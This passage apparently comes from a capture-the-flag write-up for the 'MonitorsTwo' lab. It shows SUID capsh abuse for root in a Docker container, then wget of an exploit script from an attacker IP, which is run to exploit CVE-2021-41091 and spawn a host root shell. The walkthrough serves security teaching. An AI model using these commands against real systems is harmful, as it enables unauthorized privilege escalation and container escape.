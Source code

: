 We observe that the `capsh` executable is configured with the `SUID` bit. We can exploit this feature to elevate our privileges to `root` within the Docker container.

```bash
www-data@50bca5e748b0:/var/www/html$ capsh --uid=0 --gid=0 --
capsh --uid=0 --gid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

whoami
root

hostname
50bca5e748b0
```

The subsequent objective is to set the `SUID` bit for `/bin/bash`.

```bash
chmod u+s /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

The final stage involves executing the exploit supplied by [UncleJ4ck](https://github.com/UncleJ4ck).

```bash
marcus@monitorstwo:/tmp/curiosity$ wget 'http://10.10.14.45/exp.sh'
--2023-08-06 14:33:56--  http://10.10.14.45/exp.sh
Connecting to 10.10.14.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2446 (2.4K) [text/x-sh]
Saving to: ‘exp.sh’

exp.sh                                          100%[====================================================================================================>]   2.39K  --.-KB/s    in 0.002s  

2023-08-06 14:33:56 (1.33 MB/s) - ‘exp.sh’ saved [2446/2446]

marcus@monitorstwo:/tmp/curiosity$ chmod +x exp.sh 
marcus@monitorstwo:/tmp/curiosity$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```